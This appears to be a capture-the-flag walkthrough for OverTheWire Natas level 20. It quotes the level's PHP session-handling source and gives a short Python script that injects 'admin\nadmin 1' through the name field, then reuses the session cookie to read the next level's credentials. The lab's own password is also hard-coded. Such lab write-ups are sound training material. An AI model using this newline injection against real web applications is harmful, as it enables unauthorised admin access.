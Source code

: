 it checking whether debug parameter in post request so use `debug=true` in URL

```php
function debug($msg) { /* {{{ */
    if(array_key_exists("debug", $_GET)) {
        print "DEBUG: $msg<br>";
    }
}
```

And your name field as `name` in post request

```php
if(array_key_exists("name", $_REQUEST)) {
    $_SESSION["name"] = $_REQUEST["name"];
    debug("Name set to " . $_REQUEST["name"]);
}

print_credentials();

$name = "";
if(array_key_exists("name", $_SESSION)) {
    $name = $_SESSION["name"];
}
```

Looks like `$data` has been breakdown to `$line`

```php
$_SESSION = array();
    foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
    }
```

at last we know if `admin == 1` , will return credential for next level

```php
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas21\n";
    print "Password: <censored></pre>";
```

first we send `admin\nadmin 1` explode breakdown this string and by session handler `myread`
will assign `admin = 1` , and then session and again get request manipulate PHPSESSID previous session_id , this time assume that `admin == 1` and cookie id also same , print_creds

```py
import requests
import re

username = "natas20"
password = "guVaZ3ET35LbgbFMoaN5tFcYT1jEP7UH"

url = "http://%s.natas.labs.overthewire.org?debug=true"%username
session = requests.Session()


response1 = session.post(url ,data={"name" : "admin\nadmin 1"}, auth=(username,password))
phpsessid = response1.cookies['PHPSESSID']
content1 = response1.text

response2 = requests.get(url,auth=(username,password), cookies={"PHPSESSID" : phpsessid})
content = response2.text

```